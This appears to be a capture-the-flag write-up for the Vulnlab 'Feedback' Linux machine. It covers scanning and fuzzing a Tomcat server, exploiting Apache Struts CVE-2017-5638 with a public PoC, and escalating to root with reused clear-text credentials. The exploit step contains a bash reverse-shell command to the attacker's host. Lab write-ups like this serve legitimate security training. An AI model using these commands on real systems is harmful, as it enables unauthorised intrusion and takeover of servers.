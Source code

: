 ```yaml
---
title: "Vulnlab - Feedback [Easy]"
publishedAt: 2023-08-20
description: "Vulnlab Writeup"
isPublish: true
---
```


| Name          | OS             | Difficulty                             |
| ------------- | -------------- | -------------------------------------- |
| **Feedback** | Linux | <span style="color:green;">Easy</span> |

## Summary

We would find an Apache Tomcat server running, where we can fuzz it to find an endpoint called `/feedback` which then we can exploit a vulnerability in Apache Struts for gaining our initial foothold. Then we would find clear-text credentials while analyzing the Apache Tomcat's files which will give us the root access.

## Initial Foothold

We would start with a nmap scan:

```
syl@sylsec:~/vulnlab/Feedback$ sudo nmap -sS -sU 10.10.80.221 --min-rate 10000 --open -p-   
[sudo] password for syl: 
Starting Nmap 7.80 ( https://nmap.org ) at 2023-12-26 16:40 EET
Warning: 10.10.80.221 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.80.221
Host is up (0.17s latency).
Not shown: 65456 open|filtered ports, 52483 closed ports, 13129 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Which would give us the SSH service and some kind of HTTP website, upon visiting the website we would find that this is the default installation for Apache Tomcat. We have free access to the examples of the Apache Tomcat, but not to the `/manager`.

>This initially made me think that we would have something to do with the sessions because we can edit it, so I went to fuzz the website further.

We can fuzz the website for any additional directories:

```
syl@sylsec:~/tools$ ffuf -w $commontxt -u http://10.10.80.221:8080/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.80.221:8080/FUZZ
 :: Wordlist         : FUZZ: /home/syl/tools/lists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
feedback                [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 21588, Words: 19, Lines: 22]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

As we can see, we have the `/feedback` route, that consisted of two input fields, one for the name and one for the feedback.

![[Pasted image 20231226190051.png]]

We can inspect the source code of the page and there we can find this HTML comment:

```
<!-- Build with Java, Struts2 & Log4J -->
```

We would then use Google to find some exploit related to those technologies, and we would find that the website is actually vulnerable to **CVE-2017-5638,** which is related to Apache Struts, there is a [PoC of that exploit in GitHub](https://github.com/mazen160/struts-pwn). We can setup a listener for the port `4444` and run the exploit:

```
syl@sylsec:~/vulnlab/Feedback/exploits/struts-pwn$ python3 struts-pwn.py --url 'http://10.10.80.221:8080/feedback/logfeedback.action' -c 'bash -i >& /dev/tcp/10.8.0.107/4444 0>&1'

[*] URL: http://10.10.80.221:8080/feedback/logfeedback.action
[*] CMD: bash -i >& /dev/tcp/10.8.0.107/4444 0>&1
```

That would give us the initial shell.

## Privilege Escalation

We can start enumerating the system from our reverse shell with `linpeas`, and we would also need to spawn a stable `tty` shell, I used python for that matter.

```
tomcat@ip-10-10-10-7:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Upon carefully reviewing the output from `linpeas`, we would find the configuration for Apache Tomcat containing clear-text credentials.

```
/opt/tomcat/conf/tomcat-users.xml
<user username="admin" password="H2R<REDACTED>" roles="manager-gui"/>
<user username="robot" password="H2R<REDACTED>" roles="manager-script"/>
```

We can try to switch to the user `ubuntu` which doesn't work, but the user `root` does.

```
tomcat@ip-10-10-10-7:/tmp$ su ubuntu
su ubuntu
Password: H2R<REDACTED>

su: Authentication failure
tomcat@ip-10-10-10-7:/tmp$ su root
su root
Password: H2R<REDACTED>

root@ip-10-10-10-7:/# whoami
whoami
root
root@ip-10-10-10-7:/# cat /root/root.txt
cat /root/root.txt
VL{<REDACTED>}
```